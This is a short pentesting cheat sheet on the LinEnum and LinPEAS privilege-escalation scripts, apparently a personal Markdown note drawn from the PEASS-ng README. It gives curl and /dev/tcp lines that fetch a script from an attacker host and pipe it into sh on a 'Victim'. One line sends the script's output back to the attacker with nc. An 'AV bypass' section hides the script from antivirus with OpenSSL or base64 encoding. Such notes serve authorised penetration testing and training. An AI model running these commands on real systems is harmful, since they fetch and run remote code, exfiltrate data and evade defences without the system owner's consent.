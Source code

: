 # **LinEnum script (Simple):**
#### <mark style="background: #8e44ad;">***:LiGithub:***</mark> https://github.com/rebootuser/LinEnum

You can use any way to send this script to the TARGET. the easiest one is to copy it and paste it in a file in the /tmp folder as: script.sh or anything 

After you transfer the script to the target give it execute permission: `chmod +x <script_name.sh>`

Then just run it and wait....

---


# **LinPEAS script (Advance):**
#### <mark style="background: #8e44ad;">:LiGithub:</mark> https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
https://blog.cyberethical.me/linpeas

##### Differences between <mark style="background: #FF5582A6;">linpeas_fat.sh</mark>, <mark style="background: #62BE6A;">linpeas.sh</mark> and <mark style="background: #ABF7F7A6;">linpeas_small.sh</mark>:
- linpeas_fat.sh: Contains all checks, even third party applications in base64 embedded.
- linpeas.sh: Contains all checks, but only the third party application linux exploit suggester is embedded. This is the default linpeas.sh.
- linpeas_small.sh: Contains only the most important checks making its size smaller.

https://github.com/peass-ng/PEASS-ng/releases/download/20250518-5781f7e5/linpeas.sh


### **Quick Start**

[](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS#quick-start)

Find the **latest versions of all the scripts and binaries in [the releases page](https://github.com/peass-ng/PEASS-ng/releases/latest)**.

```shell
# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```shell
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```shell
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

```shell
# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```


### **AV bypass**

[](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS#av-bypass)

```shell
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```
